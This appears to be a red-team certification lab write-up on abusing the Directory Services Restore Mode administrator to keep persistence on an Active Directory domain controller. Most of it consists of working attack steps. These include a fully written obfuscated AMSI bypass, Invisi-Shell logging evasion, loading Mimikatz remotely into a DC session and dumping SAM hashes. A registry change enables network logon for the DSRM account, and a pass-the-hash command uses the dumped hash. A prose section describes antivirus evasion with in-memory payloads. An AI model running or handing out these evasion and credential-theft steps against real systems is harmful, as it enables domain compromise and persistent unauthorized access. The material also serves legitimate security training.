

CRTP - Certified Red Team Professional
Abusing DSRM Credentials
We can persist with administrative access on the DC once we have Domain Admin privileges by abusing the DSRM administrator.
What is DSRM?
How DSRM Password Abuse Works
1. DSRM Account Creation: During the promotion of a Domain Controller (DC), administrators create a DSRM local administrator account with a password that rarely changes. This account is used to log in to the DC in DSRM mode when the server is booting up to restore AD backups or recover the server from a failure.
1. Password Abuse: Attackers can abuse the DSRM account by changing its password to maintain persistence and access to the Active Directory. This is done by running specific commands on every DC or remotely against every DC.
1. Credential Dumping: Once the attacker has the DSRM password, they can use tools like Mimikatz to extract both local administrator and AD administrator password hashes. This allows them to log on to the DC over the network as a local administrator.
1. Registry Key Manipulation: The attacker can change the Windows registry to log into the DC using DSRM hashes without rebooting the server. This is done by setting the registry key "DsrmAdminLogonBehavior" to a value that allows the DSRM administrator account to log on.
1. Pass the Ticket (PTT): The attacker can use additional techniques like PTT to access the DC and laterally move on the network. This involves using Mimikatz commands to generate a ticket that can be used to authenticate as the DSRM administrator.
We will be using Invoke-Command for this attack to avoid AV detection.
Let’s assume we where able to compromise a Domain Admin account and we already have access to the DC.
We start by executing Invisi-Shell to bypass all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) and then AMSI bypass.
Note: I’m using the RunWithPathAsAdmin.bat because I’m already an administrator on the machine, otherwise I should be running the RunWithRegistryNonAdmin.bat
RunWithPathAsAdmin.bat

AMSI Bypass
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )Loading Invoke-Mimi with Invoke-Command
AV bypassing using Invoke-Command involves techniques to evade antivirus detection by executing payloads in memory without writing them to disk. Here are some key points about this method:
1. Memory Injection: The payload is injected into memory using Invoke-Command, which allows it to run without being written to disk. This technique is particularly effective against disk-based AV detection.
1. PowerShell Obfuscation: Tools like Chimera and Hoaxshell can be used to obfuscate the payload, making it harder for AV to detect. These tools use techniques such as string substitutions and variable concatenations to disguise the payload.
1. Execution Policy: The target machine's execution policy needs to be set to unrestricted to allow the script to run. This can be done using the Set-ExecutionPolicy cmdlet.
1. Payload Generation: The payload is generated using tools like msfvenom, which creates a reverse shell payload in PowerShell format. This payload is then injected into the script using Invoke-Command.
1. Script Execution: The script is executed on the target machine using Invoke-Command, which runs the payload in memory without writing it to disk. This allows the payload to evade disk-based AV detection.
1. Redirection: The payload can be downloaded and injected into the target machine using a Python web server. This involves setting up a server to host the payload and then using Invoke-Command to download and execute the payload.
Let’s access the Domain Controller using Powershell Remoting Session… We will be creating a variable $session to use it also later besides using it to access the domain controller now.
$session = New-PSSession dcorp-dc
Enter-PSSession -Session $session
After accessing Domain Controller using Powershell Remote Session, let’s do a quick AMSI bypass as well and exit back again with an exit command after AMSI bypass.
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
Now let’s load Invoke-Mimi script to our session.
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps\ -Session $session
Once it finishes we will extract the credentials from the SAM file from the DC. The Directory Services Restore Mode(DSRM) password is mapped to the local Administrator on the DC.
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'

.#####. mimikatz 2.2.0 (x64) #19041 Dec 23 2022 18:36:14
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(powershell) # token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM
612 {0;000003e7} 1 D 18136 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Primary
-> Impersonated !
* Process Token : {0;0176bcf7} 0 D 24559697 dcorp\Administrator S-1-5-21-719815819-3726368948-3917688648-500 (12g,26p) Primary
* Thread Token : {0;000003e7} 1 D 25198916 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Impersonation (Delegation)
mimikatz(powershell) # lsadump::sam
Domain : DCORP-DC
SysKey : bab78acd91795c983aef0534e0db38c7
Local SID : S-1-5-21-627273635-3076012327-2140009870
SAMKey : f3a9473cb084668dcf1d7e5f47562659
RID : 000001f4 (500)
User : Administrator
Hash NTLM: a102ad5753f4c441e3af31c97fad86fd
RID : 000001f5 (501)
User : Guest
RID : 000001f7 (503)
User : DefaultAccount
RID : 000001f8 (504)
User : WDAGUtilityAccountThe DSRM administrator account is not allowed to log on to the Domain Controller (DC) from the network by default. To change this behavior and allow the DSRM administrator to log on to the DC over the network, we need to modify the registry on the DC.
Bare in mind that this needs to be executed in the Domain Controller.
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

Now from our local system we can just pass the hash for the DSRM administrator.
It will take few seconds but a new session will open via powershell.
Invoke-Mimi -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'

Now with this new session we can access any machine in the network including Domain Controller.
ls \\dcorp-dc.dollarcorp.moneycorp.local\C$